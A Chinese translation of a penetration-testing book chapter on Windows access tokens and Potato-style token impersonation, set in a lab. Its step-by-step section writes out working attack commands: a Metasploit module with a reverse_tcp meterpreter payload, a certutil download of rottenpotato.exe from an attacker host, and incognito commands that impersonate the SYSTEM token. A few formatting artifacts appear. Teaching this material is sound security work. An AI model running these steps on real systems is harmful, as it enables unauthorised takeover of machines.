

# 第六章：冒充攻击

现在您已经在 Windows 上的权限提升过程中动手操作过，我们可以开始探索其他可以利用的攻击路径，以提升我们的权限。在本章中，我们将更详细地了解**Windows 访问令牌**，它们是如何工作的，以及如何通过冒充攻击利用它们来提升我们的权限。

本章的实际演示将主要集中在如何枚举系统上的特权，以确定系统是否容易受到冒充攻击，以及如何生成或冒充一个特权的 Windows 访问令牌，该令牌可用于提升我们的特权。

我们还将学习如何使用各种内置的`meterpreter`模块自动化目标系统上的令牌冒充过程。

本章将涵盖以下主要主题：

+   了解 Windows 访问令牌

+   枚举特权

+   令牌冒充攻击

+   通过 Potato 攻击提升特权

# 技术要求

要跟随本章中的演示，您需要确保满足以下技术要求：

+   熟悉 Windows CMD 命令

+   基本理解 Windows 访问令牌

您可以在此处查看本章代码的实际演示：[`bit.ly/3kWPSch`](https://bit.ly/3kWPSch)

# 了解 Windows 访问令牌

我们在本书的第一章简要介绍了 Windows 访问令牌是如何工作的，并应该对它们如何被滥用来提升权限有一个大致的了解。本节将更深入地探讨它们是如何工作的，以及它们在 Windows 身份验证过程中的作用。

第一步是重新审视 Windows 访问令牌在身份验证中所起的作用，它们是如何工作的，以及可以分配给令牌的各种安全级别。

## Windows 访问令牌

Windows 访问令牌是 Windows 身份验证过程中的核心元素，由**本地安全授权子系统服务**（**LSASS**）创建和管理。

Windows 访问令牌负责识别和描述在系统上运行的进程或线程的安全上下文。简单来说，访问令牌可以被看作是一个临时的密钥，类似于 Web Cookie，它为用户提供对系统或网络的访问，而无需每次启动进程或访问系统资源时都提供凭据。

访问令牌由`winlogon.exe`进程在每次用户成功身份验证时生成，并包含与线程或进程相关的用户帐户的身份和特权。然后，此令牌会附加到`userinit.exe`进程，之后由用户启动的所有子进程将继承来自其创建者的访问令牌副本，并在相同访问令牌的特权下运行。

## 令牌安全级别

考虑到访问令牌用于根据用户的权限提供特定访问权限，Windows 访问令牌根据分配给它们的不同安全级别进行分类。这些安全级别用于确定分配给特定令牌的权限。

访问令牌通常会分配以下安全级别之一：

+   匿名

+   身份识别

+   伪造

+   委托

我们将遇到并利用的两个主要安全级别是 `impersonate` 和 `delegate`，因为它们可以被滥用来提升我们在系统上的权限。

### 伪造令牌

`Impersonate`-级别的令牌是 Windows 上非交互式登录的直接结果，通常是通过特定的系统服务或域登录生成的。

`Impersonate`-级别的令牌可用于在本地系统上伪造令牌，而不能用于任何使用该令牌的外部系统。

### 委托令牌

`Delegate`-级别的令牌通常是通过在 Windows 上的交互式登录创建的，主要通过传统登录或通过远程访问协议如 **远程桌面协议**（**RDP**）生成。

`Delegate`-级别的令牌构成最大威胁，因为它们可以在任何系统上用于伪造令牌。

现在我们了解了访问令牌的工作原理及其相关的各种安全级别，我们可以看看它们是如何被滥用来提升系统权限的。

## 滥用令牌

滥用令牌以提升系统权限的过程主要取决于被利用账户的权限，该账户已被用来获得初始访问权限。

为了充分理解如何利用委托和伪造访问令牌提升我们的权限，我们需要探讨执行伪造攻击所需的特定 Windows 权限。

以下是成功进行伪造攻击所需的权限：

+   `SeAssignPrimaryToken`：允许用户使用如 `rottenpotato.exe` 等攻击工具伪造令牌。

+   `SeCreateToken`：允许用户创建具有管理员权限的任意令牌。

+   `SeImpersonatePrivilege`：允许用户在通常具有管理员权限的情况下，在另一个用户的安全上下文下创建进程。

更多关于特定 Windows 权限及其在伪造攻击中可能产生的影响的信息，请参考：[`github.com/gtworek/Priv2Admin.`](https://github.com/gtworek/Priv2Admin)

现在我们理解了 Windows 上访问令牌的工作原理、与令牌相关的各种安全级别以及成功发起伪造攻击所需的特定权限，我们可以通过查看如何枚举目标系统上与我们账户相关联的权限，来开始令牌伪造过程。

在本章中，我们将使用我们在虚拟黑客实验室中设置的 Windows 7 SP1 虚拟机。

现在我们可以开始枚举特权的过程，以确定是否可以对目标执行伪造攻击。

# 枚举特权

要执行特权枚举过程，你需要确保通过命令行或`meterpreter`会话访问目标系统。我们将查看适用于这两种访问方法的各种技术。要开始特权枚举过程，请按照以下步骤操作：

1.  第一步是识别当前使用的用户账户。可以通过在`meterpreter`中运行以下命令来完成：

    `getuid`

    如果你无法通过`meterpreter`会话访问目标，可以在命令行中运行以下命令：

    `whoami`

    如下图所示，这将输出当前登录的用户；在这种情况下，我们以普通用户身份登录：

    

    图 6.1 – 枚举当前用户

1.  下一步是枚举用户特权，可以通过在`meterpreter`中运行以下命令来实现：

    `getprivs`

    另外，如果你正在使用命令行，可以在命令提示符下运行以下 Windows 命令：

    `whoami /priv`

这将输出分配给用户账户的特权列表。我们主要关注识别以下可能被滥用的特权：

+   `SeAssignPrimaryToken`：此权限允许用户使用`rottenpotato.exe`等利用工具伪造令牌。

+   `SeCreateToken`：此权限允许用户创建一个具有管理员权限的任意令牌。

+   `SeImpersonatePrivilege`：此权限允许用户在另一个用户的安全上下文中创建进程，通常该用户具有管理员权限：

图 6.2 – 使用 meterpreter 枚举特权

如前面的截图所示，我们能够识别出`SeImpersonatePrivilege`特权。此特权可以用来在另一个用户的安全上下文中创建进程，通常该用户具有管理员权限：

图 6.3 – 枚举特权 CMD

如前面的截图所示，Windows 命令也会提供有关特权的信息；在这种情况下，`SeImpersonatePrivilege`特权允许我们在身份验证后伪造客户端。

如果账户没有上述列出的任何特权，你将无法成功执行伪造攻击。因此，你需要识别另一个潜在的攻击向量。

我们现在已经能够成功枚举登录用户账户的特权，并可以开始执行令牌伪造攻击。

# 令牌伪造攻击

令牌冒充攻击利用特定的 Windows 权限，如 `SeImpersonatePrivilege`，来获取具有管理权限的访问令牌，利用该令牌进行冒充，从而提升权限。

这个过程将取决于你所针对的 Windows 版本，并且可以通过多种技术执行。

我们将重点讨论的技术被称为 **Potato 攻击**。这种攻击有一些变种，会改变利用过程，但利用过程的核心原则保持不变。为了充分理解如何成功冒充令牌，我们需要更深入地了解 Potato 攻击的工作原理。

## Potato 攻击概述

Potato 攻击是一个 Windows 提权技术的名称，它利用 Windows 中已知的问题，如 *NTLM 中继*（特别是 HTTP - SMB 中继）、**NetBIOS 名称服务**（**NBNS**）*欺骗*、*WPAD* 和 *Windows 更新*。

这种技术允许攻击者将 Windows 系统中的权限从最低权限账户提升到最高权限账户，即 `NT AUTHORITY**/**SYSTEM`。

因为利用 NTLM 身份验证的过程涉及到 NTLM 身份验证的工作原理，所以我们需要了解 NTLM 身份验证的基本原理。

### NTLM 身份验证

**NT LAN 管理器**（**NTLM**）是一组在 Windows 中使用的身份验证协议，用于促进计算机之间的身份验证。身份验证过程涉及使用有效的用户名和密码来成功进行身份验证。

NTLM 身份验证在客户端-服务器通信模型下运行，并涉及一个类似于 **TCP 三次握手** 的握手过程。

身份验证过程利用三种类型的消息，这些消息用于建立成功的身份验证：

+   谈判

+   挑战

+   响应

以下图示展示了 NTLM 身份验证过程的整体情况，以及客户端与服务器之间的握手过程：

图 6.4 – NTLM 身份验证过程

现在我们对 NTLM 身份验证的基本原理有了初步了解，接下来我们将更详细地探讨握手过程中的步骤：

1.  客户端通过向服务器发送身份验证请求来发起连接；该请求包括用于身份验证的用户名。

1.  服务器回应请求，发送 NTLM 挑战，通常是一个随机数。

1.  客户端接收到挑战响应后，生成挑战号码和用户密码的哈希值，并将其发送回服务器。

1.  服务器已经知道用户的密码，并生成密码的哈希值来与客户端返回的哈希值进行比较。

1.  如果哈希匹配，客户端的身份和用户的身份就会得到验证，且访问会被授权；如果不匹配，访问将被拒绝。

NTLM 身份验证握手的性质使其容易受到 **中间人攻击**，可以利用这些攻击进行伪装攻击。

你现在应该理解 NTLM 身份验证的工作原理，接下来我们可以探索各种可以使用的土豆攻击变种。

### 热土豆攻击

热土豆攻击涉及多个步骤，利用了 NTLM 中继（特别是 HTTP=>SMB 中继）、WPAD、NetBIOS 名称服务器、伪造和 Windows 更新。攻击过程如下：

1.  第一步是向目标发送伪造的 NBNS 响应包，指向我们将在 `127.0.0.1:80` 上设置的伪造 WPAD 代理服务器。这将把目标系统上的 HTTP 流量重定向到我们的服务器。

1.  下一步是以 `NT AUTHORITY**/**SYSTEM` 启动 Windows 更新。

1.  默认情况下，Windows 更新将通过请求 URL `http://wpad/wpad.dat&#8221` 自动查找网络代理设置配置。这时，伪造的 WPAD 代理服务器就发挥作用了。如果存在代理，将会使用它。由于我们已经用包含伪造代理地址的包淹没了目标，Windows 更新将使用伪造代理，从而让我们拦截特权的 NTLM 身份验证请求。

1.  伪造的 WPAD 代理通过 NTLM SMB 中继进行身份验证，并获取 NTLM 安全挑战。然后将安全挑战转发给 Windows 更新。

1.  Windows 更新返回 NTLM 响应，该响应将被伪造的 WPAD 代理拦截。

1.  最后一步是使用 NTLM 响应通过 SMB 进行身份验证。

关于热土豆攻击的更多信息可以在这里找到：[`foxglovesecurity.com/2016/01/16/hot-potato/`](https://foxglovesecurity.com/2016/01/16/hot-potato/)

### 腐烂土豆攻击

腐烂土豆攻击涉及三个主要步骤，利用 NTLM 中继来协商 `NT AUTHORITY**/**SYSTEM` 的安全令牌。攻击过程如下：

1.  第一步是诱使 `NT AUTHORITY**/**SYSTEM` 账户通过我们操作的 TCP 端点使用 NTLM 进行身份验证。

1.  通过设置中间人攻击，可以促进身份验证过程，从 `NT AUTHORITY**/**SYSTEM` 账户本地协商安全令牌。

1.  最后一步涉及伪装我们刚刚协商的令牌。这要求我们的账户拥有 `SeImpersonatePrivilege` 权限。

腐烂土豆攻击是热土豆攻击的改进版本，也利用了 NTLM 中继、NBNS 伪造、WPAD 和 Windows 更新。腐烂土豆攻击更高效，成功率更高，因为它不依赖于 Windows 更新过程。

更多关于 Rotten Potato 攻击的信息可以在此找到：[`foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/.`](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

现在我们了解了各种 Potato 攻击的工作原理，我们可以开始在目标系统上进行令牌冒充操作。

# 通过土豆攻击提升权限

在本节中，我们将探索可以通过 Potato 攻击进行令牌冒充的各种工具和技术。如前所述，Potato 攻击的成功将取决于目标运行的 Windows 版本以及是否运行诸如 WPAD 等服务，或者是否使用 NTLMv2 哈希。

我们可以通过按照下列程序开始这个过程：

1.  第一步是执行系统枚举，识别通过 Potato 攻击可以利用的潜在权限提升向量。这可以通过使用自动化枚举脚本来完成；在本例中，我们将使用 *Windows 漏洞建议器* 脚本：

    `./windows-exploit-suggester.py --database <Database>.xlsx --systeminfo <Systeminfo>.txt`

    如下图所示，这将输出一份潜在的权限提升漏洞列表，在本例中，我们只关注能够导致权限提升的 Potato 漏洞：

    

    图 6.5 – Windows 漏洞建议结果

    在这个示例中，我们可以识别出一个潜在的权限提升攻击向量，可以通过 Hot Potato 和 Rotten Potato 攻击进行利用：

    

    图 6.6 – MS16-075 Metasploit 模块

    如上图所示，关于 `MS16-075` 漏洞的进一步研究揭示了一个我们可以用来自动执行 Potato 攻击的 Metasploit 模块。

1.  我们可以通过运行以下命令在 Metasploit 中加载模块：

    `use exploit/windows/local/ms16_075_reflection`

    在加载模块之前，确保你已将 `meterpreter` 会话置于后台。

1.  加载模块后，我们可以通过在 Metasploit 控制台中运行以下命令来查看模块选项：

    `show options`

    你还需要指定要使用的默认 shell；在本例中，我们将使用一个与`x64`架构操作系统兼容的`meterpreter` shell。可以通过运行以下命令来实现：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    如下图所示，你需要修改的模块选项是 `LHOST`、`LPORT` 和 `SESSION` ID。此外，模块选项还应反映出我们在前一步中指定的默认 shell：

    

    图 6.7 – 模块选项和默认有效负载

1.  配置模块选项后，我们可以通过运行以下命令来执行漏洞模块：

    `run`

    如果漏洞成功，您应该会看到如下截图所示的新`meterpreter`会话：

    

    图 6.8 – 漏洞成功

1.  下一步是执行模拟过程，可以使用内置的`meterpreter`模块`incognito`来自动化。可以通过运行以下命令来加载该模块：

    `load incognito`

    如果模块成功加载，您应该会看到类似于以下截图所示的消息：

    

    图 6.9 – 加载 incognito

    注意

    `incognito`是一个内置的`meterpreter`模块，最初是一个独立的应用程序，允许在成功利用漏洞后模拟用户令牌。

1.  现在我们可以使用`incognito`显示可用的令牌列表，我们可以模拟的令牌。可以在`meterpreter`中运行以下命令来完成：

    `list_tokens -u`

    如以下截图所示，这将列出我们可以模拟以提升权限的所有可用用户令牌。在这种情况下，我们能够识别出具有委托安全级别的`NT AUTHORITY/SYSTEM`访问令牌：

    

    图 6.10 – 列出令牌

1.  下一步是进行实际的模拟。这可以通过运行以下命令，使用`incognito`来完成：

    `impersonate_token "NT AUTHORITY\SYSTEM"`

    如果模拟过程成功，您应该会收到类似以下截图所示的消息：

    

    图 6.11 – 成功的模拟

1.  我们现在可以通过枚举当前用户和权限来验证模拟攻击过程。这可以通过在 Meterpreter 中运行以下命令来完成：

    `getuid`

    如以下截图所示，我们现在应该在目标系统上拥有`NT AUTHORITY/SYSTEM`权限，并成功提升了我们的权限：

图 6.12 – 用户枚举

现在我们已经学会了如何使用 Metasploit 模块自动执行模拟攻击，我们还可以探索如何手动执行 Potato 攻击。

## 手动升级

手动升级过程将涉及使用需要手动编译、传输和执行的漏洞二进制文件。在执行漏洞二进制文件后，我们将利用`meterpreter`模块，如`incognito`，列出可用的令牌，并模拟特权访问令牌以提升我们的权限：

1.  与前一部分类似，第一步是执行系统枚举，以识别可以通过 Potato 攻击利用的任何潜在权限提升漏洞。可以使用自动化枚举脚本来完成此操作，在本例中，我们将使用 *Windows 漏洞建议器* 脚本：

    `./windows-exploit-suggester.py --database <Database>.xlsx --systeminfo <Systeminfo>.txt`

    如以下截图所示，这将输出一列潜在的权限提升漏洞。在此情况下，我们仅关心能够导致权限提升的 Potato 漏洞：

    

    图 6.13 – Windows 漏洞建议器结果

    在此示例中，我们可以识别出一个潜在的权限提升攻击向量，可以通过 Rotten Potato 攻击利用。

    我们可以导航到 *图 6.13* 中概述的 GitHub 参考 URL，了解更多关于该漏洞以及如何使用它的信息。

    如以下截图所示，GitHub 仓库为我们提供了漏洞源代码和一个预编译的可执行文件，我们可以使用它：

    

    图 6.14 – RottenPotato GitHub 仓库

    GitHub 仓库还为我们提供了漏洞的使用流程和要求，如以下截图所示：

    

    图 6.15 – RottenPotato 使用情况

    在这种情况下，我们将使用预编译的可执行文件；但是，建议分析源代码并手动编译，以根据您的需求修改参数并避免任何安全问题。

1.  下载预编译漏洞后，我们需要将其传输到目标系统。为了将 `rottenpotato.exe` 二进制文件传输到我们的目标系统，我们需要在 Kali 虚拟机上设置一个 web 服务器，用于托管该二进制文件，以便我们可以在目标系统上下载它。可以按照此处的步骤完成此操作。

    为了在我们的 Kali 虚拟机上设置一个 web 服务器，我们可以利用 `SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储 `rottenpotato.exe` 二进制文件的目录中运行以下命令来完成此操作：

    `sudo python -m SimpleHTTPServer 80`

    另外，您还可以通过运行以下命令使用 Python3 `http.server` 模块：

    `sudo python3 -m http.server 80`

    如以下截图所示，`SimpleHTTPServer` 将在 Kali 虚拟机的 IP 地址上通过端口 `80` 提供该目录中的文件：

    

    图 6.16 – SimpleHTTP 服务器目录

    为了将`rottenpotato.exe`二进制文件下载到目标系统，我们可以使用`certutil`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到当前用户的桌面，如下图所示：

    

    图 6.17 – 默认用户目录

    现在我们可以使用`certutil`工具从 Kali 虚拟机下载二进制文件到我们的目标系统。可以通过在目标系统上运行以下命令来完成：

    `certutil -urlcache -f http://<KALI-VM-IP>/rottenpotato.exe rottenpotato.exe`

    或者，我们也可以使用`meterpreter`上传`rottenpotato.exe`二进制文件。可以通过运行以下命令来实现：

    `upload /<BINARY-LOCATION>/rottenpotato.exe`

1.  根据使用程序的步骤，下一步是在`meterpreter`中加载`incognito`模块。可以通过运行以下命令来完成：

    `load incognito`

1.  在加载`incognito`模块后，我们现在可以执行`rottenpotato.exe`二进制文件。可以通过在`meterpreter`中启动 shell 会话，运行以下命令来完成：

    `shell`

    在目标系统上启动 shell 会话后，我们可以通过运行以下命令来执行`rottenpotato.exe`二进制文件：

    `.\rottenpotato.exe`

    如果漏洞利用成功，你应该会收到如下图所示的消息：

    

    图 6.18 – RottenPotato 漏洞利用成功

1.  现在我们可以终止 shell 会话并返回到`meterpreter`会话，并列出可用于伪装的访问令牌。可以通过运行以下命令来实现：

    `list_tokens -u`

    如下图所示，这将列出我们可以伪装的所有可用用户令牌，从而提升我们的权限。在这种情况下，我们能够识别出具有委托安全级别的`NT AUTHORITY/SYSTEM`访问令牌：

    

    图 6.19 – 列出令牌

1.  下一步是进行实际的伪装。可以通过`incognito`运行以下命令来完成：

    `impersonate_token "NT AUTHORITY\SYSTEM"`

    如果伪装过程成功，你应该会收到如下图所示的消息：

    

    图 6.20 – 伪装成功

1.  现在我们可以通过枚举当前用户和权限来验证伪装攻击过程。可以在 Meterpreter 中通过运行以下命令来实现：

    `getuid`

    如下图所示，我们现在应该已经拥有`NT AUTHORITY/SYSTEM`权限，并且已经成功提升了我们的权限：

图 6.21 – 用户枚举

现在，我们已经能够通过 Metasploit 模块和手动利用二进制漏洞，成功通过令牌伪装攻击提升我们的权限。

# 总结

在本章中，我们首先了解了 Windows 访问令牌是如何工作的，以及与之相关的各种安全级别。接着，我们探讨了如何通过使用自动化和手动工具在目标系统上枚举权限，以确定其是否容易受到令牌伪装攻击的影响。最后，我们通过深入分析如何通过 Potato 攻击自动化和手动进行令牌伪装攻击，结束了本章内容。

在下一章中，我们将探讨如何搜索存储的凭证和哈希值，以提升我们的权限。
